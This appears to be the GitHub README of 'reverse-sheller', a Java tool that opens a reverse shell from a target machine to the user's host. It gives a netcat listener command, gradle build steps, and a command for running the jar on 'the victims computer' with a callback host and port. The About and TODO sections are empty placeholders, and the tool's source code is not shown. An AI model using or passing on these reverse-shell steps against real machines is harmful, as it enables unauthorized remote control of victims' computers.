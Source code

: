 # reverse-sheller

Build and execute this .jar on target machine with JDK11 or above to get a reverse shell from your host.

![Reverse shell terminal picture](imgs/reverse-shell-picture.jpg)

## Usage 💡

1) Open server waiting for client connection. From this terminal you will be able to execute reverse shell commands:

```bash
nc -lvnp 4444
```

2) Build `.jar` using:

```bash
./gradlew build
```

3) Grab the `.jar` from `./build/libs` and execute it on the victims computer using:

```bash
java -jar <filename.jar> 127.0.0.1 4444
```

(Requirement: JDK8 or higher needs
to be installed on victims computer, and JAVA_HOME variable needs to be pointing to working JDK instance)

## About 💁📙

...
...

## TODO 📝

Things that need to be done:

1) Server implementation
2) ...
   ...

![README ending picture](imgs/readme-ending-picture.jpg)

## Author 👷

Drop me a line at: rojberr@outlook.com 